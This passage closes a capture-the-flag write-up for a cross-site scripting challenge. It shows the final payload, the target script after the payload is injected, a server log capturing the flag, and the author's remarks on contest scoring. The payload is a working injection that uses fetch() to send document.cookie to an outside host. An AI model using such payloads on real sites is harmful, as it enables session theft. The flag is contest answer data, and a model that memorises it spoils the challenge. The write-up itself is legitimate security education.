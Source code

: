 ```js
x) {fetch('https://backend.stackotter.dev:8000/?'+document.cookie)}; deadcode(); var y = () => {//
```
Figure 11: *the final payload.*

```js
function deadcode(x) {fetch('https://backend.stackotter.dev:8000/?'+document.cookie)}; deadcode(); var y = () => {//) {
  if (x) {fetch('https://backend.stackotter.dev:8000/?'+document.cookie)}; deadcode(); var y = () => {//) {
    var params = {};
    params['noot'] = "x) {fetch('https://backend.stackotter.dev:8000/?'+document.cookie)}; deadcode(); var y = () => {//";
    return params;
  }
}

// Cleaning the code up a little makes things a bit more clear
function deadcode(x) {
  fetch('https://backend.stackotter.dev:8000/?'+document.cookie)
};
deadcode();
var y = () => {
  if (x) {
    fetch('https://backend.stackotter.dev:8000/?'+document.cookie)
  };
  deadcode();
  var y = () => {
    var params = {};
    params['noot'] = "x) {fetch('https://backend.stackotter.dev:8000/?'+document.cookie)}; deadcode(); var y = () => {//";
    return params;
  }
}
```
Figure 12: *the script after having the payload inserted into it.*

Luckily JavaScript is very relaxed, because otherwise we might've had to work a bit
more to get this payload working 😅.

```
3.24.244.16 - - [23/Jul/2023 13:36:41] "GET /?flag=flag{ed8a00ce2b82a9028a5d06ebbefb26582c0c98fc} HTTP/1.1" 200 -
```
Figure 13: *the line of the server logs containing the flag.*

Flag: `flag{ed8a00ce2b82a9028a5d06ebbefb26582c0c98fc}`

### Conclusion

This challenge was pretty interesting to solve and was a nice follow on challenge from
the previous two XSS challenges that I had solved. However, the fact that the web
category had two of these lucrative 'challenge series's meant that the pwn challenges
didn't have much value in terms of points. I spent an hour-ish total to solve the three
of the XSS challenges for 800 points, but spent multiple hours on `protec` (a pwn challenge
that didn't get a second solve right until the end) for just 350 points. The CTF devs
did a great job with the CTF, but I think the scoring could do with some tuning next
year.

---